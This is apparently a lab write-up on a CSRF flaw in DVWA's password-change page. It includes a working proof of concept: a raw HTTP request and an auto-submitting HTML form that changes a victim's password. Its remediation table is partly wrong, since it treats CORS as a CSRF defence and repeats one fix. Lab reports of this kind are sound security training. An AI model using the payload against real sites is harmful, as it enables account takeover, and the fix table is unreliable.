

```
Reported by: Mikail Kakabayev
Date: 2025/06/30
```

## **<span style="color: red">Vulnerability:</span>** Cross-Site Request Forgery (CSRF) Token Theft via FORM input

**Lab:** *DVWA (Damn Vulnerable Web Application)*

**Risk:** *<span style="color: red">HIGH</span>*

**Endpoint:** `http://localhost/dvwa/vulnerabilities/csrf/index.php`

---

### *Description:*

The application's Token can be theft via `<form />` input and reused a forged request to change victim's password without their consent.

### *Impact:*

An attacker can:

 - Steal a valid CSRF Token (e.g. via `<form />` inspection).
 
 - Craft a malicious request to change victim's password.
 
 - Gain full account compromise (if victim is an admin).


### ***Steps to Reproduce:***
1. Log in to DVWA (security level: high).  
2. Inspect the password change form (`user_token` is exposed).  
3. Copy the token and craft a malicious HTML page.  
4. Victim visits the page → password changes automatically.  

### *Proof of Concept (PoC):*

**1.** Inspect the `<input />` form and check the **HTML** code:



**2.** Reuse the Token in malicious Request:

```http
GET /dvwa/vulnerabilities/csrf/index.php?password_new=2323&password_conf=2323
&Change=Change&user_token=b4b8e4ede8eb727a0d6663f01675cb33 HTTP/1.1

Host: localhost
Cookie: PHPSESSID=55i53fq0buq899p69di6sv97pl; security=high
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
...
```
**3.** Craft a malicious `form`:


```html
<html>
  <body>
    <form action="https://localhost/dvwa/vulnerabilities/csrf/index.php">
      <input type="hidden" name="password&#95;new" value="2323" />
      <input type="hidden" name="password&#95;conf" value="2323" />
      <input type="hidden" name="Change" value="Change" />
      <input type="hidden" name="user&#95;token" value="b4b8e4ede8eb727a0d6663f01675cb33" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Trigger:** Victim visits the page -> password is silently changed.


### *Root Cause Analysis:*

|   Issue	|  Solution
|---	|---
|   Token is not-tied to user session	|   "Use server-side session storage to bind tokens to users"
|   no SameSite lax/strict    |   "Use server-side session storage to bind tokens to users."
|   no CORS header    |   "Use Access-Control-Allow-Origin: trusted-site.com to block cross-origin requests."
|   no Referer/Origin headers   |   "Validate Origin: https://trusted-site.com server-side."